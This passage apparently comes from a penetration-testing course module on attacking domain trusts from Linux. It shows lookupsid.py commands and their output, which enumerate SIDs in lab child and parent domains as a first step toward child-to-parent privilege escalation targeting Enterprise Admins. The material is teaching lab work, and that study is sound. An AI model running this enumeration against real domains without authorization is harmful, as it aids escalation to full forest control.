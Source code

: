 ```shell-session
521: LOGISTICS\Read-only Domain Controllers (SidTypeGroup)
522: LOGISTICS\Cloneable Domain Controllers (SidTypeGroup)
525: LOGISTICS\Protected Users (SidTypeGroup)
526: LOGISTICS\Key Admins (SidTypeGroup)
553: LOGISTICS\RAS and IAS Servers (SidTypeAlias)
571: LOGISTICS\Allowed RODC Password Replication Group (SidTypeAlias)
572: LOGISTICS\Denied RODC Password Replication Group (SidTypeAlias)
1001: LOGISTICS\lab_adm (SidTypeUser)
1002: LOGISTICS\ACADEMY-EA-DC02$ (SidTypeUser)
1103: LOGISTICS\DnsAdmins (SidTypeAlias)
1104: LOGISTICS\DnsUpdateProxy (SidTypeGroup)
1105: LOGISTICS\INLANEFREIGHT$ (SidTypeUser)
1106: LOGISTICS\htb-student_adm (SidTypeUser)
```

We can filter out the noise by piping the command output to grep and looking for just the domain SID.

**Looking for the Domain SID**

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
AIceBear@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"

Password:

[*] Domain SID is: S-1-5-21-2806153819-209893948-92287268
```

Next, we can rerun the command, targeting the INLANEFREIGHT Domain Controller (DC01) at 172.16.5.5 and grab the domain `SID S-1-5-21-3842939050-3880317879-2865463114` and attach the RID of the Enterprise Admins group. [Here](https://adsecurity.org/?p=1001) is a handy list of well-known SIDs.

**Grabbing the Domain SID & Attaching to Enterprise Admin's RID**

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
AIceBear@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"

Password:
[*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: INLANEFREIGHT\administrator (SidTypeUser)
501: INLANEFREIGHT\guest (SidTypeUser)
502: INLANEFREIGHT\krbtgt (SidTypeUser)
512: INLANEFREIGHT\Domain Admins (SidTypeGroup)
513: INLANEFREIGHT\Domain Users (SidTypeGroup)
514: INLANEFREIGHT\Domain Guests (SidTypeGroup)
515: INLANEFREIGHT\Domain Computers (SidTypeGroup)
516: INLANEFREIGHT\Domain Controllers (SidTypeGroup)
517: INLANEFREIGHT\Cert Publishers (SidTypeAlias)
518: INLANEFREIGHT\Schema Admins (SidTypeGroup)
519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
```
